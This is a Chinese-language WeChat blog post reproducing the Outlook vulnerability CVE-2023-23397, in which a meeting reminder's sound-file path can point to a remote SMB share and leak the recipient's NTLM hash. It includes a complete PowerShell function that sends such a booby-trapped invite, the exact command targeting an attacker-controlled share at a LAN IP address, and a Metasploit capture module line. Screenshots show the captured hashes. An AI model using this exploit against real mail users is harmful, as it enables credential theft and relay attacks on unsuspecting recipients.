 #  CVE-2023-23397(危险的约会铃声)

原创 查鲁特 [ 边界骇客 ](javascript:void\(0\);)

**边界骇客** ![]()

微信号 no__root

功能介绍 科技向善，科技理应向善

____

___发表于_

收录于合集

**前言:CVE-2023-23397这个漏洞挺简单的，简单复现一下及说一下原理。**

 **1.ReminderSoundFile属性**

ReminderSoundFile是outlook的一个属性，返回或设置一个指示当 Outlook 项目的提醒发生时将播放该声音文件的路径和文件名称的
字符串 。

 **功能点所在的地方：**

会议→提醒→需要先选时间→声音  

![]()

其中声音的路径支持UNC_PATH,既然支持UNC_PATH就直接SMB_RELAY。

如下图所示：

![]()

 **2.复现**  

两种方式复现：

 **1.通过图形化界面操作** ****

  *   *   *   * 

    
    
    1.新建会议 2.设置提醒时间3.设置提醒声音指向匿名共享的文件夹的声音文件4.关闭匿名共享，然后开启relay

 **2.github脚本  
**

  * 

    
    
     https://github.com/api0cradle/CVE-2023-23397-POC-Powershell

gayhub已经有现成的脚本了，直接利用即可(必须运行OUTLOOK，并登陆)

1.开启SMB监听

  *   * 

    
    
    use auxiliary/server/capture/smbrun

2.powershell键入函数

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    function Send-CalendarNTLMLeak ($recipient, $remotefilepath, $meetingsubject, $meetingbody){    $Outlook = New-Object -comObject Outlook.Application    $newcal = $outlook.CreateItem('olAppointmentItem')    $newcal.ReminderSoundFile = $remotefilepath    $newcal.Recipients.add($recipient)    $newcal.MeetingStatus = [Microsoft.Office.Interop.Outlook.OlMeetingStatus]::olMeeting    $newcal.Subject = $meetingsubject    $newcal.Location = "Virtual"    $newcal.Body = $meetingbody    $newcal.Start = get-date    $newcal.End = (get-date).AddHours(2)    $newcal.ReminderOverrideDefault = 1    $newcal.ReminderSet = 1    $newcal.ReminderPlaysound = 1    $newcal.send()}

3.执行函数

  * 

    
    
    Send-CalendarNTLMLeak -recipient "查鲁特真帅@qq.com" -remotefilepath "\\192.168.109.129\d.wav" -meetingsubject "Test Meeting" -meetingbody "Just a test meeting from IT, can be deleted"

4.发现的时候会有一个弹窗告警需要同意（这是发件人弹窗，并非受害人弹窗）

![]()

5.然后就自动弹窗触发  

![]()

6.触发UNC_PATH成功抓到HASH  

![]()

  

 **写在最后:微软的SMB毒瘤已经很久了，你们猜这次触发是通过什么东西触发UNC_path的**

:.ﾟヽ(｡◕‿◕｡)ﾉﾟ.:｡+ﾟ防盗专用｡:.ﾟヽ(｡◕‿◕｡)ﾉﾟ.:｡+ﾟ

 ^_^文章来源：微信公众号（边界骇客） ^_^ ^_^

![]()

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

